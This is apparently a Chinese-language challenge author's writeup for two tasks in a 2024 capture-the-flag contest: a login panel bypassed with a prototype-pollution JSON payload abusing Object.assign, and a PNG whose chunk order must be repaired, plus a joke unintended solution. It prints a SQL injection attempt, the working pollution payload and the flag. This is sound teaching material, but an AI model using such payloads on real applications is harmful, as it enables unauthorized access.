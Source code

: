 ```yaml
---
description: 被嗆爆了下次改進
title: 2024 THJCC WINTER writeup
pubDate: 2024-12-16 15:52:19
tags:
  -  writeup
categories:
    - Daily
image: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTMdHnKyoWMjFsuOqjEmVIDDr-AsbtAMdCK8g&s
---
```


## 前言

我這次出兩題，分別是

- Web
  - Login Panel
- Misc
  - png chunk

---

## Login Panel

預期解是 prototype pollution

### sql injection

```sql
SELECT ? AS SECRET FROM users WHERE user = ? AND password = ?
```

->

```sql
SELECT ? AS SECRET FROM users WHERE user = 'admin' AND password = '1'
```

but 這樣行不通

### prototype pollution

```javascript
loginData = Object.assign({ secret }, loginData); // oh, that's cool
```

其中這邊有個 prototype pollution
Object.assign 將 secret 加入 loginData，可能導致對象原型的污染。
原先的loginData是

```json
{
  "secret": "THJCC{fake}",
  "user": "admin",
  "password": "1"
}
```

可以加入`__proto__`

只要我

```json
{
  "user": "admin",
  "__proto__": {
    "password": {
      "password": 1
    }
  }
}
```

加入 `__proto__` 的，整個 `Object.prototype.password.password` 被設為 1

那![截圖 2024-12-16 15.44.42](https://hackmd.io/_uploads/rkAO9L6Vye.png)

> FLAG : THJCC{pRoTo7YP3_Poi50ninG???}

---

## png chunk

顧名思義就是png 的區塊
用
https://www.nayuki.io/page/png-file-chunk-inspector
去看會發現
![image](https://hackmd.io/_uploads/HkXLiUTV1e.png)
IEND 和 ITAT 的位置有錯
只有把它調整過來就好
![image](https://hackmd.io/_uploads/SkM9i8aN1x.png)
![image](https://hackmd.io/_uploads/S1doo8aEyl.png)

---

## Login Panel 非預期解

![image](https://hackmd.io/_uploads/S1PznI6Nye.png)
![image](https://hackmd.io/_uploads/HJrQ286Nkl.png)

_如果您是通靈大師，那麼密碼藏在首頁_
![image](https://hackmd.io/_uploads/ByjmR86N1g.png)
~~密碼就是never gonna give you up~~
{"user":"admin","password":"https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"}
![image](https://hackmd.io/_uploads/ry6uR8aEke.png)
🤏

